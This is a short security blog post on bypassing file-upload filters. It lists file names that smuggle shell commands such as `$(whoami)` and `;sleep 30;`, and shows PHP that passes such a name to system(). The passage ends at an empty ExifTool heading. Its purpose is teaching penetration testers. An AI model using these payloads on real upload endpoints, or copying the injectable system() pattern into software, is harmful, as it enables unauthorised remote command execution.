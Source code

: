 ```yaml
---
layout: blog
type: blog
title: Web Application Security - Upload Bypass
permalink: blog/web-upload-bypass
# All dates must be YYYY-MM-DD format!
date: 2021-11-15
labels:
  - rce
  - magic number
  - filter bypass
---
```


# Tricks

Note: this section was gotten from a post that I can't seem to find but I saw the content in on of my notes.

## RCE via the file name parameter

If the application includes custom image processing / file manipulation, then it may be vulnerable to remote command execution via code injection in the file name.

Some example valid file names that could trigger commmand injection are the following:

|File Name | Payload | Outcome If Vulnerable|
|---|---|---|
| `a$(whoami)z.jpg` | `$(whoami)` | `a[CURRENT USER]z.jpg` |
| a\`whoami\`z.jpg | \`whoami\` | `a[CURRENT USER]z.jpg` |
| `a;sleep 30;z.jpg` | `;sleep 30;` | The application will take 30+ seconds to respond |

### Example Vulnerable Code

Code:

```php
<?php
$variable = "test`whoami`test";
system("echo ".$variable);
?>
```

Output:

```txt
testwww-datatest
```

## RCE via ExifTool Exploit
